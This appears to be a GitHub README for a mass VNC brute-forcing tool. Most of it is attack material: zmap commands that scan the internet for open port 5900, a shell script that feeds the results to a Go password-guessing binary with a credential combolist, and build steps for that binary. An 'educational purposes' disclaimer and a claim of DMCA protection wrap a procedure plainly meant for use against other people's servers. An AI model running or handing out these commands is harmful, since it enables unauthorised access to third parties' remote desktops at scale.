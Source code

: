 # VNC-mass-bruteforcer
Disclamer: this is intended for educational purposes only, and it is also protected by the Digital Millennium Copyright Act (DMCA)
mass bruteforce vnc servers with  iplist and user:pass combolist

Credits: http://github.com/kward/ for his great gui vnc repository (http://github.com/kward/go-vnc)

# Instructions:
  ------------------------------------------------
    Make a sh file named auto.sh and paste the below data
    this will scan the world to bruteforce with cmd:
                     "sh auto.sh"
    This will result in a full world scan and echo the results to the screen.
    results file : /bruteforced.log
    login file : /passwords.txt
                          ||
                          \/
  -------------------------------------------------
    echo "rm -rf bios.txt mfu.txt
    ulimit -n 999999
    zmap -p5900 -N170000 -obios.txt
    python add_port.py bios.txt mfu.txt 5900
    ./vnc_brute passwords.txt mfu.txt
    awk {'print $0; system("sleep 0.003"'} bruteforced.log" > auto.sh
     
  -------------------------------------------------
# FIRST TIME INSTRUCTIONS: 

  ------------------------------------------------
    COMPILE THE BRUTER:
    go env -w GO111MODULE=off
    go get "http://github.com/kward/go-vnc"
    go build vnc_brute.go
    
  ------------------------------------------------
    SCAN FOR IP RANGES:
    zmap -p5900 -N150000 -ovnc_mfu_unfilt.txt
    
  -----------------------------------------------
  -----------------------------------------------
    ADD PORT NUMBER:
    python add_port.py vnc_mfu_unfilt.txt vnc_mfu.txt 5900
    
  ------------------------------------------------
  ------------------------------------------------
    START BRUTEFORCE
    ./vnc_brute passwords.txt vnc_mfu.txt
